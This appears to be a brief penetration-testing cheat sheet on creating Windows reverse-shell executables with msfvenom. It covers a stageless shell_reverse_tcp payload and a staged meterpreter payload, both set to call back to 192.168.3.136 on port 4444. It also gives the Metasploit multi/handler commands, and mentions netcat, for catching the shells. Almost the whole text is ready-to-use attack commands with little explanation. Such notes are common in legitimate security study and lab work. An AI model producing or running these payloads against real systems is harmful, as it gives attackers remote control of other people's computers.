

Metasploit shells Windows
windows/shell_reverse_tcp (
stageless: we do not need necessarily metasploit listener)
msfvenom -a x86 -p windows/shell_reverse_tcp lhost=192.168.3.136 lport=4444 -f exe -o exploit_shell_reverse_tcp.exe
• metasploit listener
msfconsole
use exploit/multi/handler
set payload windows/shell_reverse_tcp
set lhost ...
set lport ...
exploit
• netcat listener
windows/meterpreter/reverse_tcp (staged: we need necessarily metasploit listener)
msfvenom -a x86 -p windows/meterpreter/reverse_tcp lhost=192.168.3.136 lport=4444 -f exe -o exploit_meterpreter/reverse_tcp.exe
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost ...
set lport ...
exploit